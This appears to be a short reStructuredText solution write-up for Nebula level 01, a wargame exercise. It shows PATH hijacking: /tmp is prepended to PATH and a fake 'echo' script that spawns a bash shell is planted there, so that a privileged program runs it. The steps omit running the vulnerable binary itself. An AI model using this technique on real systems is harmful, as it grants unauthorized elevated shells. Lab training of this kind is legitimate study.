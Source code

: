 .. _nebula01:

.. role:: bash(code)
	  :language: bash

Nebula level 01
===============

Basic Information
-----------------

**Official Website**

https://exploit-exercises.com/nebula/level01/


Solution
--------

Export :bash:`PATH` first

:bash:`$ export PATH=/tmp:$PATH`

On :bash:`tmp` create a bash script with this and name it echo (without extension):

.. code-block:: bash
		#!/bin/bash
		bash

:bash:`$ chmod 777 echo`

and last execute :bash:`getflag` 

